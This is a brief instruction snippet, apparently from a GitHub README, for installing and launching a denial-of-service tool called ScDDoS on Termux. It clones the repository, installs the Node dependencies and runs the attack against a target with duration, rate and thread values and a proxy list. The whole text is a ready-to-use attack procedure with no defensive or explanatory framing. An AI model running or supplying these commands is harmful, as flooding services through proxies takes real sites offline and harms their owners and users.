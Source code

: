 pkg upgrade && pkg update 
pkg install nodejs
git clone https://github.com/Debygood/ScDDoS
cd ScDDoS
npm i
node index.js target 120 500 9 proxy.txt
